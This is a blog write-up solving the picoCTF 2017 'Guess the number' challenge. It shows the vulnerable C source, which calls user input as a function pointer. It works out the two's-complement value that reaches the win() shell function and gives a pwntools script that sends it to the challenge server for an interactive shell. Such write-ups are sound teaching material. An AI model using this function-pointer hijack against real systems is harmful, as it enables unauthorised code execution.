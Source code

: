 Title: PicoCTF 2017 Lvl2 Guess the number
Date: 2018-7-28 10:02
Modified: 2018-7-28 10:02
Category: ctf
Tags: ctf, pwnable, binary exploitation
Slug: picoCTF_lvl2GuessTheNumber
Authors: F3real
Summary: How to solve picoCTF Lvl2 Guess the number

Let's look at another of the challenges from picoCTF:

>    Just a simple number-guessing game. How hard could it be? [Binary](https://webshell2017.picoctf.com/static/69834a84e2bf2d2953093f5d24d12fa0/guess_num) [Source](https://webshell2017.picoctf.com/static/69834a84e2bf2d2953093f5d24d12fa0/guess_num.c). Connect on shell2017.picoctf.com:44930.

We are given the following source code:

~~~c
/* How well do you know your numbers? */

#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

void win(void) {
    printf("Congratulations! Have a shell:\n");
    system("/bin/sh -i");
}

int main(int argc, char **argv) {
    uintptr_t val;
    char buf[32] = "";

    /* Turn off buffering so we can see output right away */
    setbuf(stdout, NULL);

    printf("Welcome to the number guessing game!\n");
    printf("I'm thinking of a number. Can you guess it?\n");
    printf("Guess right and you get a shell!\n");

    printf("Enter your number: ");
    scanf("%32s", buf);
    val = strtol(buf, NULL, 10);

    printf("You entered %d. Let's see if it was right...\n", val);

    val >>= 4;
    ((void (*)(void))val)();
}
~~~

We see that user input is being stored to `uintptr_t val` after which it is called and that we have `win` function giving shell. On first look it looks like we have just to send the address of `win` and we get a flag. The problem is that they are using `strtol` to read user input and the fact that they shift bits, but first, let's find the address of `win` function:

    objdump -d guess_num -M intel

![objdump disasembly of win function]({static}/images/2018_7_28_Guess.png){: .img-fluid .centerimage}

`win` function has address of `0x0804852b` but we also need to shift address value 4 bits to left since in code they are doing the opposite. Doing so gives us 2152223408, but now we have a problem since according to documentation of `strtol`, if the value read is out of the range of representable values by a `long int`, the function returns **LONG_MAX**(2147483647) or **LONG_MIN** (-2147483647). This means we can’t just simply send this value since it’s too big.

To solve this, we have to use negative numbers:
~~~text
    >>>x = 0x0804852b            #address of win function
    >>>bin(x)
    '0b1000000001001000010100101011'   
    >>>x = x << 4                #shift by 4 since they also shift
    >>>x
    2152223408   
    >>>bin(x)
    '0b10000000010010000101001010110000'   
    >>>x = x - (1 << 32)         #get 2nd compliment of number
    >>>x
    -2142743888                  #SOLUTION :D other steps are just to            
                                              explain what happens later

    >>>bin(x)
    '-0b1111111101101111010110101010000'

                                 #Their program will do these steps
    >>>x = x + 4294967295 + 1    
                                 #Since we have negative value which is 
                                 #assigned to unsigned variable it will   
                                 #be converted to unsigned by adding 
                                 #ULONG_MAX + 1
    >>>x
    2152223408
    >>>x = x >> 4                #program shifts our input by 4 bits
    >>>x
    134513963
    >>>bin(x)
    '0b1000000001001000010100101011'  
    >>hex(x)
    0x804852b                    #address of win function
~~~
To automate this we can write short script using **pwntools **and python:

~~~python
context.arch = 'i386'
context.terminal = 'tmux'

r = remote('shell2017.picoctf.com', 44930)
print r.recvuntil('Enter your number:')
payload = 0x0804852b
payload = payload << 4
payload = payload - (1 << (len(bin(payload))-2))

r.send(str(payload)+'\n')
r.interactive()
~~~

Running our script gives us the flag.

![objdump disasembly of win function]({static}/images/2018_7_28_Guess2.png){: .img-fluid .centerimage}
